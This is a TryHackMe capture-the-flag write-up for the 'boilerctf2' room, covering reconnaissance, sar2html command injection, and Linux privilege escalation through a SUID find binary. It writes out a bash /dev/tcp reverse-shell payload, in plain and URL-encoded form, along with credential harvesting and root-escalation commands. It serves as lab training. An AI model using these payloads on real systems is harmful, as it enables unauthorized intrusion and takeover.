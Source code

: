 ```yaml
---
title: boilerctf2
categories: [CTF, THM]
tags: [ftp, http, ssh, linux_privesc]
date: 2024-03-06 08:00 +0700
---
```


## nmap
- `sudo nmap -sS --min-rate=500 -T4 -sV --version-all -O --script=default -r -vv $IPTA -oN nmap_full_$IPTA -p- -Pn`
	- 21 FTP
		-  anonymous allowed
	- 80 HTTP
		- Apache httpd 2.4.18 ((Ubuntu))
	- 10000 HTTP
		- MiniServ 1.930 (Webmin httpd)
	- 55007 SSH

## FTP enumeration
- `ftp ftp://anonymous@$IPTA` log in as anonymous, download and cat file content (it's obviously ROT13 encoding)

![](/assets/img/img_thm_ctf_boilerctf2_1.png)
- decyphering it with CyberChef
![](/assets/img/img_thm_ctf_boilerctf2_2.png)

## Webmin enumeration
- `searchsploit Webmin` our server version is 1.930 (cf nmap). The thing is, there was a great unauthenticated RCE for version 1.920, and there are a few exploits for versions above, but nothing for our version. The "HTML Email Command Execution" only affects versions <1.080. So no, we can't exploit it.
![](/assets/img/img_thm_ctf_boilerctf2_3.png)

## http enumeration
- `feroxbuster -u http://$IPTA:80 -t 30 -w /usr/share/dirb/wordlists/common.txt -x txt,html,sql,csv,png,jpg,jpeg,php,js,md,sh,py,css,cgi,xml,aspx,zip,tar,tar.gz,bak dir -o "ferox_$IPTA"_80_common_all.txt` let's try to find hidden folders/files
- let's look at the robots.txt file (cf nmap)
![](/assets/img/img_thm_ctf_boilerctf2_4.png)
- the result of the blurred cypher is "kidding" -> CyberChef -> From Decimal -> From Base64 -> md5 hash -> cracking it with john
![](/assets/img/img_thm_ctf_boilerctf2_5.png)
![](/assets/img/img_thm_ctf_boilerctf2_6.png)
- `cat ferox_10.10.232.144_80_common_all.txt | grep -Ev "manual"`
![](/assets/img/img_thm_ctf_boilerctf2_7.png)
- we found a CMS folder!
- `feroxbuster -u http://$IPTA:80/joomla -t 30 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,sql,csv,png,jpg,php,cgi,xml,zip,tar,bak dir -o "ferox_$IPTA"_80_joomla_med_3.txt` let's start a more detailed and precise forced browsing attack
- with all this enumeration, I found a few interesting folders `_files, _test, tmp, ~www`

## sar2html CVE exploit
- in `_test`, we get an interesting web module
![](/assets/img/img_thm_ctf_boilerctf2_8.png)
- searching for "sar2html", I found this CVE https://www.exploit-db.com/exploits/47204
- the exploit is quite simple to reproduce
![](/assets/img/img_thm_ctf_boilerctf2_9.png)
- our id command is executed! Can we get a reverse shell?
- let's replace "id" with `bash -c "bash -i >& /dev/tcp/10.11.64.57/56765 0>&1"` -> url encoded with CyberChef -> `bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E11%2E64%2E57%2F56765%200%3E%261%22`
- yes, we do get a reverse shell!
![](/assets/img/img_thm_ctf_boilerctf2_10.png)
- in log.txt, we get some SSH credentials
![](/assets/img/img_thm_ctf_boilerctf2_11.png)

# linux privesc
## password in bash script -> stoner
- `ssh basterd:$IPTA -p 55007`
- `cat backup.sh` in our user home, we get the credentials of an other user, in a bash script, as a comment
![](/assets/img/img_thm_ctf_boilerctf2_12.png)
- `su stoner`

## SUID script -> root
- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -lah {} \; 2> /dev/null` we find an interesting SUID binary, find
	- cf https://gtfobins.github.io/gtfobins/find/#suid
![](/assets/img/img_thm_ctf_boilerctf2_13.png)
- now we just have to get the user.txt and root.txt flags
- `cat /root/root.txt; echo -e "\n"; cat /home/stoner/.secret`